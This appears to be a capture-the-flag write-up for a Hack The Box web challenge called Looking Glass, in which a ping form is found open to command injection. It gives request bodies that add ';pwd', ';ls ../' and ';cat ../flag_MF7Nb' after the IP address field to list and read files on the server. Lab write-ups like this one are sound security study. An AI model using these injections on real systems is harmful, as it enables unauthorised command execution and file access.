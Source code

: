# HTB Looking Glass
Description: We've built the most secure networking tool in the market, come and check it out!

# Initial Ideas
Spawned instance is named "rce" in the browser tab. Likely some sort of simple remote code execution

# Page Source
We see that a POST method is being used. Nothing else of significance

![Web Source](webimage.png)

# Inspect
Since Looking Glass is using a POST method, we can observe the network monitor in the browser. This is an easy challenge, so we shouldn't need to use much else.

## Request Body
Navigating to the **Headers** section, we see the request body contains `test=ping&ip_address=167.99.84.37&submit=Test`. These are simply Linux/Unix commands being sent over the API, so we could try editing them.

![Request Body](request_body.png)

### PoC
Command injection via a web request can be added by inserting a semicolon followed by the command itself. For example, `test=ping&ip_address=167.99.84.37;pwd&submit=Test` returns:

![PoC Image](PoC.png)

### Finding the Flag
Using the same stucture, we can list all the files in the top directory:
`test=ping&ip_address=167.99.84.37;ls ../&submit=Test`

![Found the Flag](found_the_flag_.png)

### Read Flag
`test=ping&ip_address=167.99.84.37;cat ../flag_MF7Nb&submit=Test`

![Flag](flag.jpg)

